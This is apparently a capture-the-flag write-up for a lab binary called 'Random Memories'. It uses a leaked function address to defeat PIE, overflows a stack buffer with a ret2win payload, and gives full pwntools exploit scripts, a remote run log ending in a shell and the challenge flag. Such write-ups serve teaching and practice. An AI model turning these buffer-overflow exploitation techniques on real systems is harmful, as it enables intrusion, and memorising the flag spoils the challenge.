

# Random Memories

## Source Code Analysis

We can first take a look at the source code

- Source Code
    
    ```bash
    int win(){
        system("/bin/sh\0");
    }
    
    void vuln(){
        char *buf[0x20];
        printf("I can give you a secret %llx\n", &vuln);
        puts("Where are we going? : ");
        read(0, buf, 0x200);
        puts("\nok, let's go!\n");
    }
    
    int main(){
        setup();
        banner();
        vuln();
    }
    ```
    

There are mainly 2 problems:

1. Insufficient buffer (32-byte and allow 512-byte input)
2. Leaking the memory address of `vuln()` (Comes in handy in PIE)

## ELF File Analysis

We can first do some basic analysis

```bash
└─$ file random 
random: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f695a80ea40f29ad194ddd0fc500ce687ce3b3d5, for GNU/Linux 3.2.0, not stripped

└─$ checksec --file=random 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   75 Symbols        No    0               2               random
```

We can see that this time, PIE is enabled, meaning the address will be dynamic. So we need to use the leaked vuln address to finish the whole exploitation

Then we can also take a look at the vuln function

```bash
pwndbg> disass vuln
Dump of assembler code for function vuln:
   0x000055a187f83319 <+0>:     endbr64
   0x000055a187f8331d <+4>:     push   rbp
   0x000055a187f8331e <+5>:     mov    rbp,rsp
   0x000055a187f83321 <+8>:     sub    rsp,0x100
   0x000055a187f83328 <+15>:    lea    rsi,[rip+0xffffffffffffffea]        # 0x55a187f83319 <vuln>
   0x000055a187f8332f <+22>:    lea    rdi,[rip+0xeaa]        # 0x55a187f841e0
   0x000055a187f83336 <+29>:    mov    eax,0x0
   0x000055a187f8333b <+34>:    call   0x55a187f830b0 <printf@plt>
   0x000055a187f83340 <+39>:    lea    rdi,[rip+0xeb7]        # 0x55a187f841fe
   0x000055a187f83347 <+46>:    call   0x55a187f83090 <puts@plt>
   0x000055a187f8334c <+51>:    lea    rax,[rbp-0x100]
   0x000055a187f83353 <+58>:    mov    edx,0x200
   0x000055a187f83358 <+63>:    mov    rsi,rax
   0x000055a187f8335b <+66>:    mov    edi,0x0
   0x000055a187f83360 <+71>:    call   0x55a187f830c0 <read@plt>
   0x000055a187f83365 <+76>:    lea    rdi,[rip+0xea9]        # 0x55a187f84215
   0x000055a187f8336c <+83>:    call   0x55a187f83090 <puts@plt>
   0x000055a187f83371 <+88>:    nop
   0x000055a187f83372 <+89>:    leave
=> 0x000055a187f83373 <+90>:    ret
End of assembler dump.

```

Maybe we should set a breakpoint in `*vuln+90` for debugging

## Offset analysis

After knowing the vulnerabilities, we need to know the details of the exploitation.

As we do not have the fixed addresses, we need to rely GDB for the offset

- Offsets
    
    ```bash
    pwndbg> info func
    All defined functions:
    
    Non-debugging symbols:
    0x0000000000001000  _init
    0x0000000000001080  __cxa_finalize@plt
    0x0000000000001090  puts@plt
    0x00000000000010a0  system@plt
    0x00000000000010b0  printf@plt
    0x00000000000010c0  read@plt
    0x00000000000010d0  setvbuf@plt
    0x00000000000010e0  _start
    0x0000000000001110  deregister_tm_clones
    0x0000000000001140  register_tm_clones
    0x0000000000001180  __do_global_dtors_aux
    0x00000000000011c0  frame_dummy
    0x00000000000011c9  setup
    0x0000000000001210  win
    0x0000000000001227  banner
    0x0000000000001319  vuln
    0x0000000000001374  main
    0x00000000000013b0  __libc_csu_init
    0x0000000000001420  __libc_csu_fini
    0x0000000000001428  _fini
    ```
    

We can see that the `vuln()` and the `win()` function have a 265 (in decimal) offset. This is useful to deduce what the injected return address will be.

We can then examine the offset required to overwrite the return address. Similar as before, we use cyclic to test it.



We can see the offset is 264

```bash
pwndbg> cyclic -l qaacraac
Finding cyclic pattern of 4 bytes: b'qaac' (hex: 0x71616163)
Found at offset 264
```

With all the info, we can then craft our payloads

## Exploit Scripts

This exploit script is a bit hard to write. I spent almost an hour just for it to work

### Finding Win address

The code below will find the win address automatically

```python
io=start()
io.recvuntil(b'I can give you a secret')
vuln_addr = int(io.recvline().strip(),16)

offset = int('0x1319',16) - int('0x1210',16)
print(f'the offset between vuln and win is {offset} in decimial')

win_address = vuln_addr - offset
print(f'The win_address is {hex(win_address)}')
```

Upon every execution, we need to:

1. Know the address of `vuln()`
2. Realize that the offset is always the same(265)
3. Use it to find the correct address

### Payload

This is where I spent most of my time:(

```python
binary_base = vuln_addr - int('0x1319',16)
print(f'The base address of is {binary_base:x}')

rop=ROP(elf)
# Remember to add the base address
ret_gadget = binary_base + rop.find_gadget(['ret'])[0]
print(f'The return gadget is {ret_gadget}')

payload = flat({ret_addr_offset:[ret_gadget, win_address]})
```

For the `ret_gadget` used for stack alignment, we need to add back the binary’s base address (`binary_base`) because it is just an offset, which I didn’t realize.

### Full Automated Script

I developed this script first, but then I failed to send the payload remotely:(

- Full automated script
    
    ```python
    from pwn import *
    
    def start(argv=[], *a, **kwargs):
        if args.GDB:
            return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kwargs)
        if args.REMOTE:
            return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
        else:
            return process([exe] + argv, *a, **kwargs)
    
    gdbscript='''
    continue
    '''
    
    exe='./random'
    elf=context.binary = ELF(exe, checksec=True)
    context.log_level = 'debug'
    
    cyclic_payload=cyclic(500)
    
    io=start()
    io.sendlineafter(b'Where are we going? :', cyclic_payload)
    io.wait()
    core=io.corefile
    
    ret_addr_value=core.rbp
    ret_addr_offset=cyclic_find(ret_addr_value)+8
    print(f'The offset of return address is {ret_addr_offset}')
    
    io=start()
    io.recvuntil(b'I can give you a secret')
    vuln_addr = int(io.recvline().strip(),16)
    
    offset = int('0x1319',16) - int('0x1210',16)
    print(f'the offset between vuln and win is {offset} in decimial')
    
    binary_base = vuln_addr - int('0x1319',16)
    print(f'The base address of is {binary_base:x}')
    
    rop=ROP(elf)
    ret_gadget = binary_base + rop.find_gadget(['ret'])[0]
    print(f'The return gadget is {ret_gadget}')
    
    win_address = vuln_addr - offset
    print(f'The win_address is {hex(win_address)}')
    
    payload = flat({ret_addr_offset:[ret_gadget, win_address]})
    
    io.sendlineafter(b'Where are we going? :', payload)
    
    io.interactive()
    
    ```
    

### Full Manual Script

This script is perfect for solving this challege

- Manual Script
    
    ```python
    from pwn import *
    
    def start(argv=[], *a, **kwargs):
        if args.GDB:
            return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kwargs)
        if args.REMOTE:
            return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
        else:
            return process([exe] + argv, *a, **kwargs)
    
    gdbscript='''
    continue
    '''
    
    exe='./random'
    elf=context.binary = ELF(exe, checksec=True)
    context.log_level = 'debug'
    
    ret_addr_offset = 256 + 8
    print(f'The offset of return address is {ret_addr_offset}')
    
    io=start()
    io.recvuntil(b'I can give you a secret')
    vuln_addr = int(io.recvline().strip(),16)
    
    offset = int('0x1319',16) - int('0x1210',16)
    print(f'the offset between vuln and win is {offset} in decimial')
    
    binary_base = vuln_addr - int('0x1319',16)
    print(f'The base address of is {binary_base:x}')
    
    rop=ROP(elf)
    ret_gadget = binary_base + rop.find_gadget(['ret'])[0]
    print(f'The return gadget is {ret_gadget}')
    
    win_address = vuln_addr - offset
    print(f'The win_address is {hex(win_address)}')
    
    payload = flat({ret_addr_offset:[ret_gadget, win_address]})
    
    io.sendlineafter(b'Where are we going? :', payload)
    
    io.interactive()
    
    ```
    

## Exploit

The result below is using the manual script. The automated script should also work if you are using the attack box to complete the challenge

- Result
    
    ```bash
    └─$ python manual.py REMOTE <Machine IP> <Port>
        Arch:       amd64-64-little
        RELRO:      Full RELRO
        Stack:      No canary found
        NX:         NX enabled
        PIE:        PIE enabled
        SHSTK:      Enabled
        IBT:        Enabled
        Stripped:   No
    The offset of return address is 264
    ...
    [DEBUG] Received 0x43 bytes:
        00000000  0a 0a 0a 1b  5b 30 6d 49  20 63 61 6e  20 67 69 76  │····│[0mI│ can│ giv│
        00000010  65 20 79 6f  75 20 61 20  73 65 63 72  65 74 20 35  │e yo│u a │secr│et 5│
        00000020  35 62 34 66  64 35 37 31  33 31 39 0a  57 68 65 72  │5b4f│d571│319·│Wher│
        00000030  65 20 61 72  65 20 77 65  20 67 6f 69  6e 67 3f 20  │e ar│e we│ goi│ng? │
        00000040  3a 20 0a                                            │: ·│
        00000043
    the offset between vuln and win is 265 in decimial
    The base address of is 55b4fd570000
    [*] Loaded 14 cached gadgets for './random'
    The return gadget is 94235832815642
    The win_address is 0x55b4fd571210
    [DEBUG] Sent 0x119 bytes:
        00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
        00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
        00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
        00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
        00000040  71 61 61 61  72 61 61 61  73 61 61 61  74 61 61 61  │qaaa│raaa│saaa│taaa│
        00000050  75 61 61 61  76 61 61 61  77 61 61 61  78 61 61 61  │uaaa│vaaa│waaa│xaaa│
        00000060  79 61 61 61  7a 61 61 62  62 61 61 62  63 61 61 62  │yaaa│zaab│baab│caab│
        00000070  64 61 61 62  65 61 61 62  66 61 61 62  67 61 61 62  │daab│eaab│faab│gaab│
        00000080  68 61 61 62  69 61 61 62  6a 61 61 62  6b 61 61 62  │haab│iaab│jaab│kaab│
        00000090  6c 61 61 62  6d 61 61 62  6e 61 61 62  6f 61 61 62  │laab│maab│naab│oaab│
        000000a0  70 61 61 62  71 61 61 62  72 61 61 62  73 61 61 62  │paab│qaab│raab│saab│
        000000b0  74 61 61 62  75 61 61 62  76 61 61 62  77 61 61 62  │taab│uaab│vaab│waab│
        000000c0  78 61 61 62  79 61 61 62  7a 61 61 63  62 61 61 63  │xaab│yaab│zaac│baac│
        000000d0  63 61 61 63  64 61 61 63  65 61 61 63  66 61 61 63  │caac│daac│eaac│faac│
        000000e0  67 61 61 63  68 61 61 63  69 61 61 63  6a 61 61 63  │gaac│haac│iaac│jaac│
        000000f0  6b 61 61 63  6c 61 61 63  6d 61 61 63  6e 61 61 63  │kaac│laac│maac│naac│
        00000100  6f 61 61 63  70 61 61 63  1a 10 57 fd  b4 55 00 00  │oaac│paac│··W·│·U··│
        00000110  10 12 57 fd  b4 55 00 00  0a                        │··W·│·U··│·│
        00000119
    [*] Switching to interactive mode
     
    [DEBUG] Received 0x10 bytes:
        b'\n'
        b"ok, let's go!\n"
        b'\n'
    
    ok, let's go!
    
    $ ls
    [DEBUG] Sent 0x3 bytes:
        b'ls\n'
    [DEBUG] Received 0xd bytes:
        b'flag.txt\n'
        b'run\n'
    flag.txt
    run
    $ cat flag.txt
    [DEBUG] Sent 0xd bytes:
        b'cat flag.txt\n'
    [DEBUG] Received 0x32 bytes:
        b'THM{Th1s_R4ndom_acc3ss_m3mories_tututut_byp4ssed}\n'
    THM{Th1s_R4ndom_acc3ss_m3mories_tututut_byp4ssed}
    ```
    

Flag: `THM{Th1s_R4ndom_acc3ss_m3mories_tututut_byp4ssed}`
